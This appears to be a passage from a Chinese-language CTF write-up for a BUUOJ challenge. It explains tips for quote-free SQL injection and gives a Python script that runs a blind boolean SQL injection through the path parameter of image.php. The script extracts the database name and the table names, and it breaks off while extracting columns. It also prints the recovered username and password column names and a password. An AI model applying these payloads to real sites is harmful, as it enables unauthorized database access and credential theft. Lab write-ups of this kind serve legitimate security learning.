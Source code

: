 爆列名: `username,password`

密码: `ae6191ca06c72dfb42aa`

脚本:

注意,这里踩了好久的坑...    这里查询语句里好像不能使用引号包裹特殊字段,否则会已知导致整个语句的值为0或1

例如

```
"path":" or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name= 'users' and table_schema=database()),{},1))={}) #"
这里users使用了引号, 导致脚本已知跑不出来
所以把这里的users转换成16进制
"path":" or (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name= 0x7573657273 and table_schema=database()),{},1))={}) #"
另外,在对substr取出的字符进行比对时,为了避免使用引号, 也将其转化为ascii码值再比较
```

脚本:

```python
import requests
import string
chars = string.printable[:]  #返回所有可打印的字母，数字，符号的集合
import time
base_url = "http://b9f4d0a2-000c-4afa-bc53-2eaf797667e9.node4.buuoj.cn:81/image.php"
session = requests.session()
def get_database_name(length):
    database_name = ""
    i = 1
    while i < length+1:
        for c in chars:
            params = {
                'id': '\\0',
                'path': " or (ascii(substr(database(),{},1))={}) #".format(i, ord(c))
            }
            #print(params['path'])
            #print(base_url)
            res = session.get(base_url, params=params).text
            print(len(res))
            if len(res) == 117007 :
                database_name += c
                print(database_name)
                break
        i = i + 1
def get_table_name():
    table_name = ""
    for i in range(1,30):
        for c in chars:
            params = {
                'id': '\\0',
                'path': " or (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))={}) #".format(i, ord(c))
            }
            # print(params['path'])
            # print(base_url)
            # time.sleep(0.5)
            res = session.get(base_url, params=params).text
            print(len(res))
            if len(res) == 117007 :
                table_name += c
                print(table_name)
                break
def get_column_name():
    column_name = ""
```